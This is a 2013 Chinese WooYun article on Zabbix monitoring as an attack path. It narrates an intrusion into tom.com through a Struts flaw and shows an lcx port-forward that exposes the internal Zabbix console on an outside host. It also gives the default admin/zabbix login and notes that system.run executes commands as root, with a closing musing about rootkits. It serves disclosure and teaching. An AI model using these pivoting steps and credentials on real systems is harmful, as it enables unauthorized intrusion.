



# 当渗透遇到 zabbix--小谈 zabbix 安全

2013/01/16 11:19 | [hongygxiang](http://drops.wooyun.org/author/hongygxiang "由 hongygxiang 发布") | [技术分享](http://drops.wooyun.org/category/tips "查看 技术分享 中的全部文章") | 占个座先 | 捐赠作者

**0x00 背景**

zabbix 近几年得到了各大互联网公司的认可，其强大的功能得到了各位运维攻城狮的亲耐。

公司本身也用 zabbix 做监控，对其属性也有所了解。不得不说 zabbix 除了监控强大之外，还有一个很好的用处就是在你忘记 root 密码的时候，重置服务器 root 密码，朋友们也一致认为 zabbix 是一个无比强大的超级后门。

打开了一扇门，另外一扇门就会随之开启，大伙都知道 zabbix 有 system.run 模块，这是可以执行任意命令的。不过还得看 agent 是以什么权限启的，根据我自己的观察，大伙为了方便这个模块都会启用，而且一般情况下都会用 root 跑。不用 root 跑会有很多麻烦事情。在这样的情况下，某些时候不得不说也方便了方便黑客更好的到访,这里很多朋友都报着这样的想法，zabbix 在内网，外网访问不了，即使有注入或弱口令或默认口令黑客也无法访问，下面用实例来告诉你这样的想法是错的，不管你信不信，反正我是信了。

**0x01 细节**

出场的是 tom 在线

漏洞源头 [`fm.tom.com/login-share/tomlogin/login.action`](http://fm.tom.com/login-share/tomlogin/login.action) struts 漏洞，struts 漏洞在现在看来实在太无技术含量，对于漏洞源头，就不需解释太多

在查询端口的时候，agent 的 10050 端口会与 server 的通讯。（在有 proxy 的情况下 zabbix_server 不太确认）

确认 zabbix_server 为:172.24.162.38

一般在安装的时候会留下 zabbix_agent 的安装脚本，详细信息可以到脚本里面看到

ifconfig

ip 信息如下(这个是作为入侵到更多服务器的跳板)

```
eth2 Link encap:Ethernet HWaddr 00:18:8B:83:1B:45 

inet addr:172.24.205.15 Bcast:172.24.205.255 Mask:255.255.255.0

UP BROADCAST RUNNING MULTICAST MTU:1500 Metric:1

RX packets:81041 errors:0 dropped:0 overruns:0 frame:0

TX packets:60 errors:0 dropped:0 overruns:0 carrier:0

collisions:0 txqueuelen:1000 

Interrupt:16 Memory:f8000000-f8012800 
```

只有内网，首先要确认思路，在没有外网 IP 的情况下，用 IPtables 做一个 nat 完全不能达到我们想要的需求，因为 zabbix 我们需要用 IEl 来访问，只能先做内网的 nat，然后把端口转到公网的某个服务器上去

先确认些信息

```
curl http://172.24.162.38/zabbix/ #返回的是 zabbix 登陆页 
```

确认好上面的一些信息后，接下来做一个 nat

```
0.0.0.0 98 172.24.162.38 80 
```

看下效果

这里会监听 98 端口，意思是当有访问本地 98 端口的时候自动转向 172.24.162.38 的 80 端口，接下来只需要将本地的 98 端口转发至公网的某个服务器就可以正常访问了

```
端口转发我用 lcx(linux 版)，这破玩意会经常断，不太好用。

    ./lcx -m 3 -h1 youip -p1 786 -h2 127.0.0.1 -p2 98<br /> 
```

转发好之后就可以正常访问了

```
<a>http://youip:port/zabbix/</a> ("http://youip:port/zabbix/") (这里一定要记得加后面的/zabbix/，它本身就带了这个目录) 
```



这个界面是我们想要的结果

```
login:admin/zabbix (内网的 zabbix 大伙往往不喜欢改密码，都认为在内网很安全) 
```



图截不完，下面其实还有很多。



接下来，可以有邪恶的想法了。添加一个监控项，给所有机器安装一个 rootkit？还是全部机器添加一个用户？不要太邪恶了，只讨论思路，这样的边界问题很容易被忽略，但是带来的后果往往也是最大的。

**Tags:** [zabbix](http://drops.wooyun.org/tag/zabbix), [安全运维](http://drops.wooyun.org/tag/%e5%ae%89%e5%85%a8%e8%bf%90%e7%bb%b4), [渗透测试](http://drops.wooyun.org/tag/%e6%b8%97%e9%80%8f%e6%b5%8b%e8%af%95)

版权声明：未经授权禁止转载 [hongygxiang](http://drops.wooyun.org/author/hongygxiang "由 hongygxiang 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [各种环境下的渗透测试](http://drops.wooyun.org/tips/411)
*   [公共无线安全——FakeAP 之 WiFi 钓鱼](http://drops.wooyun.org/tips/112)
*   [Android Broadcast Security](http://drops.wooyun.org/tips/4393)
*   [Modsecurity 原理分析–从防御方面谈 WAF 的绕过（一）](http://drops.wooyun.org/tips/3804)
*   [Android Activtity Security](http://drops.wooyun.org/tips/3936)
*   [clickjacking 漏洞的挖掘与利用](http://drops.wooyun.org/web/3801)